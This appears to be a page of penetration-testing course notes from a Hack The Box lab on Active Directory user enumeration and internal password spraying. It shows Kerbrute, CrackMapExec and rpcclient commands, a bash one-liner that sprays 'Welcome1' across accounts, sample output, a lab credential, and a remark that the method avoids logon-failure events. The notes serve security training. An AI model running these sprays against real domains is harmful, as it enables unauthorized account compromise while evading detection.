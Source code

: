 
### Enumerating Users with Kerbrute
- Uses Kerberos Pre-Authentication to enumerate valid AD accounts and for password spraying.
- Does not generate Windows event ID 4625 (logon failure).
- The tool sends TGT requests to the domain controller without Kerberos Pre-Authentication to perform username enumeration.

```shell
# Using Kerbrute User Enumeration
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

### Credentialed Enumeration to Build User List
With valid credentials, use any of the tools stated previously to build a user list. 

```shell
# Using CrackMapExec with Valid Credentials
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

---

# Internal Password Spraying - from Linux

## Overview
Once we’ve created a wordlist using one of the methods shown in the previous section, it’s time to execute the attack. This section focuses on performing password spraying from Linux hosts.

## Using rpcclient
Rpcclient is an excellent option for performing this attack from Linux. A valid login is indicated by the response "Authority Name". We can filter out invalid login attempts by grepping for "Authority" in the response.

### Bash One-Liner for the Attack
```shell
for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

### Example Output
```shell
Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

## Using Kerbrute
Kerbrute can also be used for the same attack.

### Command
```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
```
